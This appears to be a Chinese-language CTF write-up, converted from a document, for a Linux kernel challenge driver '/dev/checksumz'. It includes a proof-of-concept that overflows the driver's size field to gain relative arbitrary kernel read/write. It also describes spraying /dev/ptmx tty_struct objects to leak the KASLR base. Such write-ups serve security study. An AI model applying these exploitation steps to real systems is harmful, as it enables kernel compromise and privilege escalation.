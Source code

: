 |C++<br>char\* name;|
| :- |

可见name为指针，不难想到覆盖指针来利用rename来进行任意写

POC

|C++<br>#include "api.h"<br>#include <stdio.h><br>#include <stdlib.h><br>#include <stdint.h><br><br>int fd;<br><br>int main() {<br>`        `fd = open("/dev/checksumz", O\_RDWR);<br>`        `lseek(fd, 512, SEEK\_SET);<br>`        `unsigned long buf[2];<br>`        `memset(buf, 0xff, sizeof(buf));<br>`        `write(fd, buf, sizeof(buf));<br>}|
| :- |

![](Aspose.Words.cb8be341-6b94-47a8-a23b-41df8bba93d4.001.png)

size已经被覆盖成0xffffffffffffffff，这样可以改pos来进行相对任意写和读。

为了能够知道内核地址，我们需要拿到kaslr基地址。可以利用tty\_struct 来创造含有内核地址的堆块

|C++<br>for(int i=0;i<0x100;i++){ spray[i] = open("/dev/ptmx", O\_RDONLY | O\_NOCTTY); }|
| :- |

这样在buf下面会有tty堆块可以读。在泄漏过程中可能会出现泄漏不成功，可以选择多创造点堆块来提升稳定性和在不同位置读堆块来稳定的获得基地址。

![](Aspose.Words.cb8be341-6b94-47a8-a23b-41df8bba93d4.002.png)
